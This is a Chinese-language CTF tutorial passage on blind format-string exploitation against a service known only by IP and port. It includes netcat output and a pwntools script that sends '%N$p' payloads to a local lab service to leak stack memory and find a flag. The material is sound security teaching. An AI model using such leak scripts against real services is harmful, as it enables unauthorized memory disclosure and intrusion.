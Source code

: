 ## 格式化字符串盲打

> ctf-wiki 上格式化字符串介绍不是很全面，我查了其他大佬的笔记，自己总结了：[Bilnd-格式化字符串盲打](Bilnd_Pwn.md)

### 原理 

所谓格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们进行 pwn，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子 1 - 泄露栈 

源码和部署文件均放在了对应的文件夹 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack) 中。

#### 确定程序位数 

我们随便输入了 %p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们 flag 在栈上，同时知道了该程序是 64 位的，而且应该有格式化字符串漏洞。

#### 利用 

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```
